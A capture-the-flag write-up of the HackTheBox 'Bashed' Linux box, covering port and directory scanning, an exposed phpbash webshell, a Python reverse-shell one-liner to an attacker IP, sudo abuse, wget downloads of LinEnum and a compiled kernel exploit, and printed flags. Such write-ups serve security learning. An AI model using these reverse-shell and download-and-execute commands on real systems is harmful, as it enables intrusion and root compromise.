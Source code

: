 ```yaml
---
layout: post
title: Bashed
tags: [OSCP, writeup, Web, Linux, Web, File Misconfiguration]
description: "Bashed write-up"
---
```


![Bashed logo](/assets/imgs/bashed/bashed.png)

### This is an easy linux box

## Tools used

------

- bash
- chmod
- ffuf
- gcc
- nc
- nmap
- python
- searchsploit
- sudo
- wget

## Reconnaissance

------

### Nmap

```
nmap -sC -sV -oA bashed 10.10.10.68 -v

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 6AA5034A553DFA77C3B2C7B4C26CF870
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```

Here’s what nmap teaches us :

- port 80 (HTTP) - Apache 2.4.18 (ubuntu)

So there is only the web port open, let's go see what's on it !

![Website image](/assets/imgs/bashed/website.PNG)

So there not a lot of thing on this website, only a two pages :

- index.html
- single.html

Single.html talks about something called "phpbash", which is a webshell. So there may be a way to found it on the web server. Let's do some files/directories brute force with ffuf :

```bash
ffuf -w /home/liodeus/directory-list-lowercase-2.3-medium.txt -u http://10.10.10.68/FUZZ -e .php,.html,.txt -t 10                                       

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0-git
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.68/FUZZ
 :: Wordlist         : FUZZ: /home/liodeus/directory-list-lowercase-2.3-medium.txt
 :: Extensions       : .php .html .txt 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 10
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

index.html              [Status: 200, Size: 7742, Words: 2956, Lines: 162]
images                  [Status: 301, Size: 311, Words: 20, Lines: 10]
about.html              [Status: 200, Size: 8190, Words: 2878, Lines: 155]
contact.html            [Status: 200, Size: 7802, Words: 2630, Lines: 157]
uploads                 [Status: 301, Size: 312, Words: 20, Lines: 10]
php                     [Status: 301, Size: 308, Words: 20, Lines: 10]
css                     [Status: 301, Size: 308, Words: 20, Lines: 10]
dev                     [Status: 301, Size: 308, Words: 20, Lines: 10]
js                      [Status: 301, Size: 307, Words: 20, Lines: 10]
config.php              [Status: 200, Size: 0, Words: 1, Lines: 1]
fonts                   [Status: 301, Size: 310, Words: 20, Lines: 10]
single.html             [Status: 200, Size: 7476, Words: 2740, Lines: 155]
```

There is 4 things that stands out from ffuf :

- uploads
- php
- dev
- config.php

Going throuth all of them, the most interresting one is "/dev" :

![Index of /dev](/assets/imgs/bashed/dev.PNG)

## Exploit

------

Going over : http://10.10.10.68/dev/phpbash.php, gives me access to the webshell with the same right as the web server :

![Webshell](/assets/imgs/bashed/webshell.PNG)

I don't really like this webshell, so let's get a reverse shell on my machine, first launch a nc listener :

```bash
nc -lvp 1234
```

Then on the webshell use this reverse shell from : 

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.10",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

And I'm connected :

```bash
nc -lvp 1234
listening on [any] 1234 ...
10.10.10.68: inverse host lookup failed: Unknown host
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.68] 58018
/bin/sh: 0: can't access tty; job control turned off
```

Get a tty shell :

```python
python -c "import pty;pty.spawn('/bin/bash')"
```

Now let's escalate ! First things that I do is to see if I can run commands as someone else :

```bash
www-data@bashed:/var/www/html/dev$ sudo -l
sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

So I can run any commands as "scriptmanager", so give me a bash ! 

```bash
www-data@bashed:/var/www/html/dev$ sudo -u scriptmanager /bin/bash
sudo -u scriptmanager /bin/bash
scriptmanager@bashed:/var/www/html/dev$whoami
whoami
scriptmanager
```

And here I'm scriptmanager ! Now it's enumeration time, let's upload "LinEnum.sh" on the box. First, start python server to transfert files :

```bash
python -m SimpleHTTPServer
```

Then, on the reverse shell download it :

```bash
wget http://10.10.14.10:8000/LinEnum.sh
```

Now launch the enumeration script :

```bash
bash LinEnum.sh
```

This is what I looked first :

```bash
[-] Kernel information (continued):
Linux version 4.4.0-62-generic (buildd@lcy01-30) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.4) ) #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017
```

I learned that this is a Ubuntu 16.04.4, let's found the release date on google :

- March 1, 2018 - [https://wiki.ubuntu.com/Releases](https://wiki.ubuntu.com/Releases)

So it's been release more thant two years ago, there migth be some local privilege escalation, go found out with searchsploit :

![Searchsploit Ubuntu](/assets/imgs/bashed/searchsploit.PNG)

Download the exploit :

```bash
searchsploit -m linux/local/44298.c
```

Going throught the code, I didn't found any compilation instruction, so I just compiled it with this basic command :

```bash
gcc 44298.c -o exploit
```

Upload the compiled exploit on the machine :

```bash
python -m SimpleHTTPServer
```

```bash
wget http://10.10.14.10:8000/exploit
```

Give the exploit execution rights :

```bash
chmod +x exploit
```

Then run it :

```bash
scriptmanager@bashed:/tmp$ ./exploit
./exploit
task_struct = ffff88003775d400
uidptr = ffff88003b7c0f04
spawning root shell
root@bashed:/tmp# whoami
whoami
root
```

And voila, I'm root ! Now go read the flags.

## Flags

------

### User.txt

```bash
root@bashed:/home/arrexel# cat user.txt
cat user.txt
2c281f318555dbc1b856957c7147bfc1
```

### Root.txt

```bash
root@bashed:/root# cat root.txt
cat root.txt
cc4f0afe3a1026d402ba10329674a8e2
```